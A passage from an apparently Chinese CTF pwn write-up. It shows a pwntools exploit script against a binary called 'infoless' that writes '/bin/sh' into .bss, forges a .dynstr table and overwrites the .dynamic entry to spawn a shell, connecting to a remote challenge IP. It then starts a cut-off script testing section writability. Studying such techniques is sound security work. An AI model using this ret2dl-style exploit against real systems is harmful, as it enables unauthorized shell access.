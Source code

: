```
       str = i + chr(0)
       payloadTemp = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0)+ p32(tempBSS) + p32(len(str)+1)
       p.send(payloadTemp)
       sleep(0.1)
       p.send(str)
       tempBSS = tempBSS + len(str)
       sleep(0.1)
 
p = remote('123.206.81.66', 8888)
#p = remote('127.0.0.1', 8888)
#p = process('./infoless')
context.log_level = 'debug'
 
#step 1: 将binShStr写入可写的bss段中
payload1 = payloadHead + p32(readpltAddr) +p32(vulFunAddr) + p32(0) + p32(bssAddr) + p32(8)
p.send(payload1)
sleep(0.1)
p.send(binShellStr)
sleep(0.1)
 
#step 2: 将伪造的dynstr表写入binShStr后面
dynstrInBSSAddr = bssAddr +len(binShellStr) + 4
writeStrTableToBSS(dynstrInBSSAddr)
 
#step 3: 将伪造的dynstr表地址写入dynamic中相对应的索引地址
payload2 = payloadHead + p32(readpltAddr) +p32(vulFunAddr) + p32(0) + p32(dynstrInDynamicAddr) + p32(4)
p.send(payload2)
sleep(0.1)
p.send(p32(dynstrInBSSAddr))
sleep(0.1)
 
#step 4：getshell
payload3 = payloadHead + p32(fflushpltAddr)+ p32(vulFunAddr) + p32(bssAddr)
p.send(payload3)
sleep(0.1)

p.interactive()
```

## 思考

于是我有了一个想法，既然`.dynamic`节是可写的，那么`.dynstr`节是否可写呢？其他的节是否还存在可写的呢，节是否可写是否有标志位给出呢？于是我进行了以下的测试。

### 测试`.dynstr`节是否可写

exp:
```
#!/usr/bin/env python
# coding=utf-8
from pwn import *

slog = 1
local = 1
debug = 0

global p

if slog: context(log_level = 'debug')
if local:
    p = process('./infoless')
else:
```